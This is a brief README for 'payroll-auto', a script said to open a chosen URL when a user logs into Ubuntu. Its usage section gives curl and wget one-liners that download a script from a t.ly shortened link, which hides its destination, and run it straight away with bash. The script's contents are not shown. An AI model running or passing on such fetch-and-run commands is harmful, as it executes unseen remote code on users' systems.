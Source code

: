 # payroll-auto
Enabling automatic opening a specific URL on logging into the a Linux system 
Tested on
Ubuntu 20.04
Ubuntu 22.04

## Usage

This script can be downloaded and executed using either `curl` or `wget` commands. It performs a specific task when executed. You can choose one of the following methods to run the script:

### Using `curl`

```bash
curl -L -o i.sh t.ly/b3uCh ; bash i.sh
```

### Using `wget`

```bash
wget  t.ly/b3uCh -O i.sh ; bash i.sh
```
